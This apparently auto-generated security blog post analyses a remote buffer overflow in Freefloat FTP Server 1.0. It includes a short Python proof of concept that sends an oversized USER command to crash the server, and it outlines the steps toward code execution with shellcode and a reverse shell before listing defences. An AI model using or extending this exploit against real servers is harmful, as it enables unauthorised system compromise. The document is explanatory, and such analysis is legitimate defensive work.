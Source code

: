 ```yaml
---
title: "[remote] Freefloat FTP Server 1.0 - Remote Buffer Overflow"
date: 2025-06-22
categories: [Cyber Blog]
tags: [vulnerability, exploit, offensive-security, Freefloat, FTP Server]
layout: post
image: ./assets/images/post-cover/FreefloatFTPServer1_0exploit.png
---
```


## Summary

Freefloat FTP Server 1.0 - Remote Buffer Overflow

## Technical Analysis

# Freefloat FTP Server 1.0 - Remote Buffer Overflow Vulnerability Analysis

## Technical Executive Summary

The Freefloat FTP Server 1.0 has been identified to contain a critical remote buffer overflow vulnerability. This flaw arises from improper handling of input data, allowing attackers to execute arbitrary code on the affected system. The vulnerability is exploitable remotely, making it a significant threat to systems running this version of the server software. Exploitation of this vulnerability could lead to a complete compromise of the targeted system, enabling unauthorized access, data exfiltration, or further network penetration.

## Proof of Concept (PoC)

Below is a Python script demonstrating a basic proof-of-concept exploit for the Freefloat FTP Server 1.0 remote buffer overflow vulnerability. This script sends a crafted payload to the FTP server to trigger the overflow condition.

```python
import socket

# Target configuration
target_ip = "192.168.1.100"
target_port = 21

# Crafting the payload
buffer = b"A" * 1000  # Adjust the size based on the overflow point
payload = b"USER " + buffer + b"\r\n"

# Establishing connection and sending payload
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip, target_port))
    s.recv(1024)  # Receive the banner
    s.send(payload)
    print("[+] Payload sent successfully.")
except Exception as e:
    print(f"[-] Could not connect to the target: {e}")
finally:
    s.close()
```

**Note:** The buffer size and payload need to be adjusted based on the exact overflow point and the shellcode to be used for exploitation. This PoC is for educational purposes only.

## Offensive Security Insights

### Exploitation Techniques

1. **Buffer Overflow Fundamentals:**
   - The vulnerability stems from the lack of bounds checking on user inputs, leading to a buffer overflow. Attackers exploit this by overwriting the stack with a payload that includes a return address pointing to malicious code.

2. **Crafting the Exploit:**
   - Identify the exact point of overflow using tools like Metasploit's pattern_create and pattern_offset.
   - Inject shellcode into the payload that performs the desired actions (e.g., opening a reverse shell).
   - Use techniques such as NOP sleds to increase the reliability of the exploit.

3. **Remote Code Execution:**
   - Once the buffer is overflowed, control is transferred to the attacker's shellcode, allowing remote code execution.
   - This can be leveraged to escalate privileges, maintain persistence, or pivot to other systems within the network.

### Defensive Measures

1. **Patch Management:**
   - Ensure that all systems are running the latest version of Freefloat FTP Server or alternative software with known vulnerabilities patched.

2. **Input Validation:**
   - Implement robust input validation and sanitization to prevent buffer overflow conditions.
   - Utilize secure coding practices to ensure input data is properly handled.

3. **Network Security:**
   - Deploy intrusion detection and prevention systems (IDPS) to monitor and block suspicious traffic patterns associated with buffer overflow exploits.
   - Restrict access to the FTP server using firewall rules and VPNs to limit exposure to potential attackers.

4. **Security Hardening:**
   - Enable stack canaries, ASLR (Address Space Layout Randomization), and DEP (Data Execution Prevention) to mitigate the risk of successful buffer overflow attacks.
   - Regularly conduct security audits and penetration testing to identify and remediate vulnerabilities.

By understanding and addressing the technical details of this vulnerability, security professionals can better protect their systems against exploitation attempts.

📎 [Original Source](https://www.exploit-db.com/exploits/52323)

---

_This article was written by sleep33._
